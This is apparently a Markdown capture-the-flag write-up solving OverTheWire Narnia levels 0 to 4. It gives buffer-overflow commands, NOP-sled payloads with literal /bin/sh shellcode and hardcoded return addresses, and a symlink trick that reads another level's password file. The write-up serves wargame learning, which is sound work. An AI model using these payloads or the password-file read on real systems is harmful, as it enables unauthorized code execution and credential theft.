 # Binary Exploitation/Pwn challenges from OverTheWire

## Narnia0

We have a `char buf[20]` buffer, but the input is taken as `scanf("%24s",&buf);` and we know that the shell is only executed when the val is at **0xdeadbeef**.

We build the hex address: "\xef\xbe\xad\xde" and with `cat -` we hold the shell open:

```bash
(python -c 'print("A"*20+"\xef\xbe\xad\xde")'; cat -; ) | ./narnia0
```

## Narnia1

This time the code reads from the `env` the variable. We have to set EGG as a shellcode.
We can pick any shellcode from [here](https://www.exploit-db.com/shellcodes):  

```bash
export EGG=`python -c 'print "<shellcode>"'`

./narnia1
```

## Narnia2

The buffer is `char buf[128]` and the function we will exploit will be `strcpy(buf,argv[1]);`.
In order to see where is the range of address we can fall in using a **NOP-Sled**, first of all we have to fill the buffer with 128 "A", inside GDB.
Note the breakpoint at *strcpy*

```console
narnia2@narnia:~$ gdb narnia2
```

```bash
b strcpy
run $(python -c 'print 128 * "A" + "BBBB"+ "CCCC"') #where B is the $ebp and C is the ret address
x/700xw $esp #analyzing the stack to detect "AAAA" B(41414141)
```

With GDB we see that in the stack we have "CCCC" in the **return address** of strcpy, then here we will put our middle-address of the  **NOP-Sled**. Again, any [shellcode](https://www.exploit-db.com/shellcodes/47513) can be used if it is small enough to fit into the NOPs.

`shellcode="\x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80"`

`return address="\x4c\xd8\xff\xff"`

Number of NOPs = **128**(buff) - **25**(shellcode) + **4**($ebp) = 107

Let's run the program with:

```bash
./narnia2 $(python -c 'print 107 * "\x90" + "\x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80"+"\x4c\xd8\xff\xff"')
```

## Narnia3

In the stack are allocated `char ofile[16] = "/dev/null"` and `char ifile[32]` and there is also a `strcpy(ifile, argv[1])` that copies in ifile argv[1]. Looking at the stack we can see that the two buffers are one above the other, then writing to **ifile** (strcpy doesn't check the length) also **ofile** can be written.
You can analyze the stack using:

```console
narnia3@narnia:~$ gdb narnia3
```

`run AAAAAAAAAAAAAAAAAAAAAAAAAAA`

`b open@plt`

`x/700xw $esp`


argv[1] will be:
`/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/yourfile`

Now you can set up your files and folder in your filesystem:

**Copy this in /tmp/yourscript.sh**

```bash
#!/bin/bash

mkdir /tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/

touch /tmp/yourfile

chmod 777 /tmp/yourfile

ln -s /etc/narnia_pass/narnia4 /tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/yourfile

/narnia/narnia3 /tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/yourfile

cat /tmp/yourfile
```

>The directory "AAAAAAAAAAAAAAAAAAAAAAAAAAA" could be already created due to the number of the players in the server. You can create your own 32-bytes long directory with any character you want.

## Narnia4

<div align="justify">

This challenge is similar to Narnia2, so also here we have a char </span> `buffer[256]` that we must overflow to overwrite the `strcpy(buffer,argv[1])` return address, but the main difference is that here there are also other buffer of strings to overwrite before we can change it.
  
First of all we must see when the program goes in segmentation fault: with some test using

  ```console
  narnia4@narnia:~$ ./narnia4 $(python -c "print('A'*$i)")
  ```

we understand that giving at $i the value of 264 it explodes so the EBD was overwritten.

Now we search the return address the we'll insert instead of that of strcpy (searching when the '\x41' are), we'll use gdb:

  ```console
  narnia4@narnia:~$ gdb narnia4
  ```

  `run $(python -c "print('A'*226)")`

  `b strcpy@plt`

  `x/700xw $esp`

We choose an address in the middle to use the NOP-Sled.

We'll use the same shellcode the we used in Narnia2:

  `shellcode="\x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80"`

Now we can prepare the argv[1] to pass to the program: 239 bytes of '\x90' + 25 bytes of shellcode and finally the 4 bytes of the return addess:

  ```bash
  ./narnia4 $(python -c "print('\x90'*239+'\x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80'+'\x18\xd8\xff\xff')")
  ```
</div>
  

